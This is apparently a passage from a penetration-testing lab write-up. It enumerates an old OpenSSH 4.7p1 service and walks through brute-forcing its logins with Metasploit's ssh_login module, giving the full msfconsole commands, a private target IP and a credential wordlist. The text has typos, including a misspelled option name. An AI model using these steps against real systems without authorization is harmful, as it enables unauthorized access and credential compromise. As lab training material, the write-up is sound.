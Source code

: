 From this output we get that the target machine uses both password and private key based authentication. Also we get info about the algorithm used by the ssh-server like rsa,dss which are quite weak and outdated encryption algorithms. But We can conclude a direct vulnerability from here. Now search for vulnerability in this ssh version(Openssh-4.7p1) on internet, search openssh-4.7 exploit, here we found that it has a 
1. **user code execution vulnerability** which allow us to execute command on the remote server after getting an ssh connection with the target server and its corresponding exploit is present in the metasploit exploit db module.

2. **Bruteforcing the ssh username and password for default crudential** As the ssh service allows password based authentication along with key-based, So we can bruteforce the service to find if it uses the default crudentials.

### Exploitation:
As we don't have the direct connection to this ssh service, So to exploit/attack this ssh service i.e to get the ssh connection to the target we have two methods:

1. **Bruteforcing the ssh with username and passwords.**
2. **Using key based authentication.**

#### 1. Bruteforcing the ssh with username and passwords**:
**--> Using metasploit module /auxiliary/scanner/ssh/ssh_login** 
 As we know the target ssh services allows password based authentication. So we can bruteforce the login attemps using a wordlist. For this we have an auxiliary module in the metasploit framework. Let start the attack
 ```
#Start the metasploit cli
msfconsole
#search for the auxiliary module
msf > search ssh_login
msf auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/ssh/ssh_login
#check for the fields
msf auxiliary(scanner/ssh/ssh_login) > show options
set RHOST 192.168.1.103
#setting the userpass custom wordlist of metasploit
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlist/userpass.txt
msf auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCESS true
msf auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASSWORD true
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf auxiliary(scanner/ssh/ssh_login) > exploit
```
Now this module will brute force the ssh login with the wordlist and if there is a match we get the username and password for that ssh server. We get them easily, if it has default crudential or weak password. If this doesn't get the result parameter create your custom wordlist as per you target info and use them.